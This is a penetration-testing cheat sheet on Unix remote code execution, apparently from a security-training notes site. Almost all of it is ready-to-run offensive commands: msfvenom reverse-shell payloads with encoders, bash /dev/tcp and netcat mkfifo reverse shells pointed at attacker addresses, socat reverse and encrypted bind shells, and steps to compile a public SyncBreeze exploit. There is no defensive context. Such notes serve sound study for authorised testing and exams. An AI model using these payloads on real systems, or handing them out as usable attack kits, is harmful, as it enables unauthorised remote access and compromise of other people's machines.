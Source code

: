 # Unix Remote Code Execution

## MSFvenom

<a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

<a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet</a>

## Exploit Resources

=== "Online"

	[Exploit Database]( https://www.exploit-db.com)

	[SecurityFocus]( https://www.securityfocus.com)

	[Packet Storm](https://packetstormsecurity.com)

	[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

=== "Offline"

	SearchSploit

	``` bash
	i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

	wine32 syncbreeze_exploit.exe
	```

	Nmap NSE Scripts

	``` bash
	cd /usr/share/nmap/scripts
	grep Exploits *.nse
	nmap --script-help=clamav-exec.nse
	```

	Metasploit Framework

	BeEF

=== "Shell File"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```

## Reverse Shell using bash

``` bash
bash -c '0<&60-;exec 60<>/dev/tcp/<LHOST>/<LPORT>;sh <&60 >&60 2>&60' 2> /dev/null
```

``` bash
bash -c 'sh -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 4444 >/tmp/f
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```